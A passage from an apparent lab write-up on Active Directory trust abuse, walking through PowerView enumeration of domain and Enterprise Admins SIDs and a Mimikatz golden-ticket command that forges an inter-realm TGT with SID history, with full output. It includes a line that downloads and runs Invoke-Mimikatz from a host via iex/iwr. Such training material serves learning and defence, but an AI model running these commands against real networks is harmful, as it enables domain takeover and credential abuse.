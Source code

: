 ### forging the inter-realm TGT

armed with this, i can then forge the inter-realm TGT. an inter-realm TGT is a special ticket given by a domain controller to a user attempting to access a service in a trusted domain. this TGT is encrypted with a shared key that both domains have agreed upon. the TGT is presented to the DC of the trusted domain to get a service ticket (TGS). once the inter-realm TGT is validated, the DC issues a TGS, that then grants the user access to the server. you can read more about Microsoft's Trust Technologies [here](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc759554(v=ws.10)?redirectedfrom=MSDN).


using PowerView, i can enumerate the domain SID and Enterprise Admins SID:

```sh
Get-DomainSID
Get-NetGroupMember -GroupName "Enterprise Admins" –Domain cosmos.local
```

```sh
PS C:\ad\tools>
PS C:\ad\tools> Get-Domainsid
S-1-5-21-771755520-687805270-358672322
PS C:\ad\tools> Get-NetGroupMember -GroupName "enterprise admins" -Domain cosmos.local

GroupDomain   : cosmos.local
GroupName     : Enterprise Admins
MemberDomain  : cosmos.local
MemberName    : Administrator
MemberSID     : S-1-5-21-1458491649-1432147247-1990877046-500
IsGroup       : False
MemberDN      : CN=Administrator,CN=Users,DC=cosmos,DC=local
```

i can then forge my inter-realm TGT. 

```sh
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:nebula.cosmos.local /sid:<sid of the current domain> /sids:<SID of the Enterprise Admins group of parent domain> /krbtgt:<hash> /ticket: C:<path>"'
```

```sh
PS C:\ticket> iex (iwr http://172.16.10.1/invoke-mimikatz.ps1 -usebasicparsing)
PS C:\ticket> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:nebula.cosmos.local /sid:S-1-5-21-771755520-687805270-358672322 /sids:S-1-5-21-1458491649-1432147247-1990877046-500 /krbtgt:a3a127f4537798da6586372093fdffb4 /ticket: C:\ticket\krbtgt_tkt.kirbi"'

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ /
 ## / \ ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcosmos.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # kerberos::golden /user:Administrator /domain:nebula.cosmos.local /sid:S-1-5-21-771755520-687805270-358672322 /sids:S-1-5-21-1458491649-1432147247-1990877046-500 /krbtgt:a3a127f4537798da6586372093fdffb4 /ticket: C:\ticket\krbtgt_tkt.kirbi
User      : Administrator
Domain    : nebula.cosmos.local (NEBULA)
SID       : S-1-5-21-771755520-687805270-358672322
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-1458491649-1432147247-1990877046-500 ;
ServiceKey: a3a127f4537798da6586372093fdffb4 - rc4_hmac_nt
Lifetime  : 7/3/2024 3:15:08 PM ; 7/1/2031 3:15:08 PM ; 7/1/2031 3:15:08 PM
-> Ticket : ticket.kirbi

```